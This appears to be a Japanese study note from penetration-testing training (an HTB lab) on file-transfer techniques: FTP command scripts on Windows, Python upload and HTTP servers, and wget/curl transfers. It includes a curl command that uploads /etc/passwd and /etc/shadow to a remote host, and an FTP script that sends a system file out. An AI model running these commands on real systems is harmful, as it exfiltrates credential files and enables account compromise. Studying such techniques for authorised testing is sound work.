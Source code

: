 
#### FTPクライアントがファイルをアップロードするためのコマンドファイルを作成
```cmd-session
C:\htb> echo open 192.168.49.128 > ftpcommand.txt
C:\htb> echo USER anonymous >> ftpcommand.txt
C:\htb> echo binary >> ftpcommand.txt
C:\htb> echo PUT c:\windows\system32\drivers\etc\hosts >> ftpcommand.txt
C:\htb> echo bye >> ftpcommand.txt
C:\htb> ftp -v -n -s:ftpcommand.txt
ftp> open 192.168.49.128

Log in with USER and PASS first.


ftp> USER anonymous
ftp> PUT c:\windows\system32\drivers\etc\hosts
ftp> bye
```

### Linux

#### webアップロード(HTTPS)
##### ターゲット側
httpsサーバーをターゲット側で立てるってことだね
webサーバーのインストール
```shell-session
sudo python3 -m pip install --user uploadserver
```

自己署名証明書の作成
```shell-session
openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'
```

ウェブサーバーは証明書をホストすべきではありません。ウェブサーバーのファイルをホストするために、新しいディレクトリを作成した方がいい
```shell-session
mkdir https && cd https
```
##### 攻撃者側
複数のファイルを取得する
- 自己署名証明書を受け入れるように、`--insecure`を追加する
```shell-session
 curl -X POST http://192.168.49.128/upload -F 'files=@/etc/passwd' -F 'files=@/etc/shadow' --insecure
```


### 簡単なhttpのwebサーバーを立てる方法(HTTP)
##### ターゲット側

- `python3 -m http.server 8080`
- `python3 -m uploadserver`
- `python2.7 -m SimpleHTTPServer`
- `php -S 0.0.0.0:8000`
- `ruby -run -ehttpd . -p8000`
##### 攻撃者側
```shell-session
wget 192.168.49.128:8000/filetotransfer.txt
```
